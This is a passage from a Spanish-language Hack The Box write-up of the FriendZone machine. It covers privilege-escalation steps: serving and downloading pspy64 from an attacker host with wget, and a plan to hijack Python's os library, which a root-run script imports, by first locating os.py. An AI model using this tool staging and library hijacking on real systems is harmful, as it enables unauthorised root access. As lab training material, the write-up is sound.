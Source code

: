 ```bash
```

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.123 - - [23/Jun/2023 10:35:04] "GET /pspy64 HTTP/1.1" 200 -
```

```bash
friend@FriendZone:/dev/shm$ wget http://10.10.14.12:80/pspy64
--2023-06-23 19:35:04--  http://10.10.14.12/pspy64
Connecting to 10.10.14.12:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3104768 (3.0M) [application/octet-stream]
Saving to: ‘pspy64’

pspy64                          100%[=======================================================>]   2.96M  42.4KB/s    in 54s     

2023-06-23 19:35:58 (56.2 KB/s) - ‘pspy64’ saved [3104768/3104768]

friend@FriendZone:/dev/shm$ 

```

Ahora si ejecutamos el **script** vemos que efectivamente se esta ejecutando el **Script**

![](/assets/images/htb-writeup-friendzone/web18.png)

En el **script** lo único que esta haciendo es importando la librería **os** y 2 variables donde se almacenan 2 direcciones de correo las demás lineas están comentadas y por ultimo esta haciendo un print pero bueno como **root** esta ejecutando el **script** y como esta importando la librería **os** en **Python3** podemos usarla para ejecutar un comando a nivel de sistema podemos hacer un **Python Library Hijacking**

# Python Library Hijacking

Primero vamos a ver donde esta **os.py** esta dentro de **python2.7** y otro en **python3.6**

```bash
friend@FriendZone:/dev/shm$ locate os.py
/usr/lib/python2.7/os.py
/usr/lib/python2.7/os.pyc
/usr/lib/python2.7/dist-packages/samba/provision/kerberos.py
/usr/lib/python2.7/dist-packages/samba/provision/kerberos.pyc
/usr/lib/python2.7/encodings/palmos.py
/usr/lib/python2.7/encodings/palmos.pyc
/usr/lib/python3/dist-packages/LanguageSelector/macros.py
/usr/lib/python3.6/os.py
/usr/lib/python3.6/encodings/palmos.py
friend@FriendZone:/dev/shm$ 
```
